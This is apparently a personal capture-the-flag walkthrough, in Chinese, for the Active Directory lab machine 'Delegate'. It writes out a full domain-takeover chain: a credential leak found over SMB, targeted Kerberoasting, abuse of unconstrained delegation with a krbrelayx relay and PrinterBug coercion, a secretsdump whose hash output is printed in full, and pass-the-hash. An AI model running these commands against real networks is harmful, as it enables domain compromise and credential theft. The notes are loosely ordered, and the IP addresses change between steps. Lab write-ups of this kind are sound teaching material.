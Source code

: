 ```yaml
---
title: Delegate
date: 2025-08-21
weight: 724
tags:
  - windows
  - medium
  - winrm
  - kud
  - targeted-kerberoasting
---
```


## 00. 摘要

> 关键词：信息泄露、ASREProast、LDAP侦察、Shadow Credentials、Kerberos Relay

1. 信息收集：端口扫描发现开放SMB服务，然后使用 `Guest` 账户枚举 SMB 服务
	1. 得到 `A.Briggs` 账户
2. 信息收集：bloodhound
	1. `A.Briggs` -- GenericWrite -> `N.Thompson` -- CanPSRemote -> `DC1$`
	2. Targeted Kerberoasting 得到 `N.Thompson` 账户
3. 信息收集：`whoami /priv`，发现一个特殊权限
	1. SeEnableDelegationPrivilege -> 可以对指定机器启用非约束性委派
4. 非约束性委派攻击拿到 `DC1$`
5. DCSync拿到 `Administrator`



delegate.vl\A.Briggs:P4ssw0rd1#123

python3 ~/my_data/Tools/targetedKerberoast/targetedKerberoast.py -v -d 'delegate.vl' -u 'A.Briggs' -p 'P4ssw0rd1#123'

john cred.txt --wordlist=/usr/share/wordlists/rockyou.txt

delegate.vl\N.Thompson:KALEB_2341

SeMachineAccountPrivilege -> create Machine
SeEnableDelegationPrivilege -> Enable Unconstrained Delegation on a Machine

```
$ netexec smb 10.129.174.10 -u "Guest" -p "" --shares

$ impacket-smbclient Guest@10.129.174.10 -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use NETLOGON
# tree
/users.bat
Finished - 0 files and folders
# cat users.bat
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123


```

```bash
# 添加机器账户
impacket-addcomputer -computer-name 'DELEGATE$' -computer-pass 'Password123!' -dc-ip 10.129.174.10 'delegate.vl'/'N.Thompson':'KALEB_2341'

bloodyAD -d delegate.vl -u N.Thompson -p KALEB_2341 --host dc1.delegate.vl add uac 'DELEGATE$' -f TRUSTED_FOR_DELEGATION

# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/DELEGATE.delegate.vl' -t 'DELEGATE$' -dc-ip 10.129.234.69 dc1.delegate.vl --additional

addspn.py -u 'delegate.vl\N.Thompson' -p 'KALEB_2341' -s 'cifs/DELEGATE.delegate.vl' -t 'DELEGATE$' -dc-ip 10.129.234.69 dc1.delegate.vl


# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'delegate.vl\DELEGATE$' -p 'Password123!' --action add --record DELEGATE.delegate.vl --data 10.10.14.13 --type A -dns-ip 10.129.234.69 dc1.delegate.vl

# 3. Check that the record was added successfully (after ~3 minutes)
nslookup DELEGATE.delegate.vl 10.129.234.69

# 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
# 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
krbrelayx.py --krbsalt 'DELEGATE.VLhost/delegate.delegate.vl' --krbpass 'Password123!'

DELEGATE.VLhost/delegate.delegate.vl

# 5. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

printerbug.py delegate.vl/'N.Thompson':'KALEB_2341'@'dc1.delegate.vl' 'DELEGATE.delegate.vl'

```





evil-winrm -u "N.Thompson" -p 'KALEB_2341' -i 10.129.129.92


impacket-psexec 'delegate.vl'/'N.Thompson':'KALEB_2341'@'10.129.166.163'



impacket-getTGT -dc-ip "10.129.129.92" 'delegate.vl'/'DELEGATE$':'Password123!'

export KRB5CCNAME="DELEGATE$.ccache"

impacket-getST -impersonate "Administrator" -spn cifs/DC1.delegate.vl -k -no-pass -dc-ip "10.129.129.92" 'delegate.vl'/'DELEGATE$'




combine ... boom!

1. impacket-addcomputer -computer-name 'DELEGATE$' -computer-pass 'Password123!' -dc-ip 10.129.129.92 'delegate.vl'/'N.Thompson':'KALEB_2341'

# 获取计算机对象
$computer = Get-ADComputer -Identity 'DELEGATE$'
# 启用非约束性委派
Set-ADAccountControl -Identity $computer -TrustedForDelegation $true

or `bloodyAD -d delegate.vl -u N.Thompson -p KALEB_2341 --host dc1.delegate.vl add uac 'DELEGATE$' -f TRUSTED_FOR_DELEGATION`



```
$ impacket-findDelegation 'delegate.vl'/'N.Thompson':'KALEB_2341'
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

AccountName  AccountType  DelegationType  DelegationRightsTo 
-----------  -----------  --------------  ------------------
DELEGATE$    Computer     Unconstrained   N/A
```








impacket-secretsdump -k 'delegate.vl'/'DC1$'@'dc1.delegate.vl' -no-pass

```
┌─[sg-dedivip-1]─[10.10.14.13]─[lambermaybe@htb-whajtrkjwf]─[~/my_data/Machines/Delegate]
└──╼ [★]$ impacket-secretsdump -k 'delegate.vl'/'DC1$'@'dc1.delegate.vl' -no-pass
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93:::


impacket-psexec 'Administrator@delegate.vl' -hashes aad3b435b51404eeaad3b435b51404ee:c32198ceab4cc695e65045562aa3ee93

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:54999c1daa89d35fbd2e36d01c4a2cf2:::
A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:8e5a0462f96bc85faf20378e243bc4a3:::
b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:deba71222554122c3634496a0af085a6:::
R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:17d5f7ab7fc61d80d1b9d156f815add1:::
J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:4ff255c7ff10d86b5b34b47adc62114f:::
N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:4b514595c7ad3e2f7bb70e7e61ec1afe:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:f7caf5a3e44bac110b9551edd1ddfa3c:::
DELEGATE$:4601:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f877adcb278c4e178c430440573528db38631785a0afe9281d0dbdd10774848c
Administrator:aes128-cts-hmac-sha1-96:3a25aca9a80dfe5f03cd03ea2dcccafe
Administrator:des-cbc-md5:ce257f16ec25e59e
krbtgt:aes256-cts-hmac-sha1-96:8c4fc32299f7a468f8b359f30ecc2b9df5e55b62bec3c4dcf53db2c47d7a8e93
krbtgt:aes128-cts-hmac-sha1-96:c2267dd0a5ddfee9ea02da78fed7ce70
krbtgt:des-cbc-md5:ef491c5b736bd04c
A.Briggs:aes256-cts-hmac-sha1-96:7692e29d289867634fe2c017c6f0a4853c2f7a103742ee6f3b324ef09f2ba1a1
A.Briggs:aes128-cts-hmac-sha1-96:bb0b1ab63210e285d836a29468a14b16
A.Briggs:des-cbc-md5:38da2a92611631d9
b.Brown:aes256-cts-hmac-sha1-96:446117624e527277f0935310dfa3031e8980abf20cddd4a1231ebf03e64fee8d
b.Brown:aes128-cts-hmac-sha1-96:13d1517adfa91fbd3069ed2dff04a41b
b.Brown:des-cbc-md5:ce407ac8d95ee6f2
R.Cooper:aes256-cts-hmac-sha1-96:786bef43f024e846c06ed7870f752ad4f7c23e9fdc21f544048916a621dbceef
R.Cooper:aes128-cts-hmac-sha1-96:8c6da3c96665937b96c7db2fe254e837
R.Cooper:des-cbc-md5:a70e158c75ba4fc1
J.Roberts:aes256-cts-hmac-sha1-96:aac061da82ae9eb2ca5ca5c4dd37b9af948267b1ce816553cbe56de60d2fa32c
J.Roberts:aes128-cts-hmac-sha1-96:fa3ef45e30cf44180b29def0305baeb6
J.Roberts:des-cbc-md5:6858c8d3456451f4
N.Thompson:aes256-cts-hmac-sha1-96:7555e50192c2876247585b1c3d06ba5563026c5f0d4ade2b716741b22714b598
N.Thompson:aes128-cts-hmac-sha1-96:7ad8c208f8ff8ee9f806c657afe81ea2
N.Thompson:des-cbc-md5:7cab43c191a7ecf2
DC1$:aes256-cts-hmac-sha1-96:358880cace9d6c849f2069f2ac7582b18de5185b3c815b6728cb3542c0d25fa1
DC1$:aes128-cts-hmac-sha1-96:f922407dfc023ec95d458257224ce8d9
DC1$:des-cbc-md5:9e16cd46ad54cba7
DELEGATE$:aes256-cts-hmac-sha1-96:e046a58d1ef38554e96c89357202d5a8735f50971b91aa803b1b8cb3adccc744
DELEGATE$:aes128-cts-hmac-sha1-96:3633f49c0af4aa1c87ce5c81d259b99b
DELEGATE$:des-cbc-md5:cdc297251673a86e
[*] Cleaning up... 
```